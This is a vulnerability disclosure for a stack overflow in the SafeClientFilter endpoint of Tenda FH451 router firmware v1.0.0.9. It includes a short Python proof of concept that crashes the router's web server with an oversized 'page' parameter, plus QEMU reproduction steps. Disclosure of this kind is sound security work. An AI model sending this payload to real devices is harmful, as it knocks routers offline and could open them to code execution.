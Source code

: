 # Stack Overflow Vulnerability in Tenda FH451 Router (v1.0.0.9) – SafeClientFilter Component

**Vendor**: Shenzhen Jixiang Tenda Technology Co., Ltd.
**Affected Firmware**: [Download Link](https://tenda.com.cn/material/show/101629)
**Vulnerability URL**: `http://192.168.200.1:80/goform/SafeClientFilter`
**Vulnerability File**: `/bin/httpd`

## Vulnerability Description

Through code auditing, a critical security risk has been identified in the `SafeClientFilter` routing function (Line 35) . 

![image-20250522110500362](./The router Tenda FH451 V1.0.0.9 of Shenzhen Jixiang Tenda Technology Co., Ltd. has a stack overflow vulnerability.assets/image-20250522110500362.png)

Specifically, the program retrieves the input parameter "page" but lacks proper validation for its numerical range (Line 39).

![image-20250522110316779](./The router Tenda FH451 V1.0.0.9 of Shenzhen Jixiang Tenda Technology Co., Ltd. has a stack overflow vulnerability.assets/image-20250522110316779.png)

Cross-referenced to the function `sub_64EAC`, with attention to lines 44 and 47.

![image-20250522110610289](./The router Tenda FH451 V1.0.0.9 of Shenzhen Jixiang Tenda Technology Co., Ltd. has a stack overflow vulnerability.assets/image-20250522110610289.png)

The path of the webpage where the vulnerability occurs is known to be `goform/SafeClientFilter`.

## PoC 

```python
import requests

url = "http://192.168.200.1:80/goform/SafeClientFilter"

payload = {
   'page': b'a'*(0x100000)
}

res = requests.post(url=url, data=payload)
print("Status Code:", res.status_code)
print("Response:", res.text)
```

## Reproduction Steps

**1. Environment Setup**:
Simulate the router firmware using QEMU

!![image-20250522110739954](The router Tenda FH451 V1.0.0.9 of Shenzhen Jixiang Tenda Technology Co., Ltd. has a stack overflow vulnerability.assets/image-20250522110739954.png)

**2. Router Initialization**:
Ensure the router is running and accessible via `http://192.168.200.1`.

![image-20250522110755361](./The router Tenda FH451 V1.0.0.9 of Shenzhen Jixiang Tenda Technology Co., Ltd. has a stack overflow vulnerability.assets/image-20250522110755361.png)

**3. Exploit Execution**:
Run the PoC script. The router will crash, rendering the web interface inaccessible.



![image-20250522110943875](./The router Tenda FH451 V1.0.0.9 of Shenzhen Jixiang Tenda Technology Co., Ltd. has a stack overflow vulnerability.assets/image-20250522110943875.png)

![image-20250522111000926](./The router Tenda FH451 V1.0.0.9 of Shenzhen Jixiang Tenda Technology Co., Ltd. has a stack overflow vulnerability.assets/image-20250522111000926.png)



The router has crashed, and the web interface is also inaccessible.

## Impact 

Remote attackers can exploit this vulnerability to crash the router (`httpd` process) or potentially execute arbitrary code.
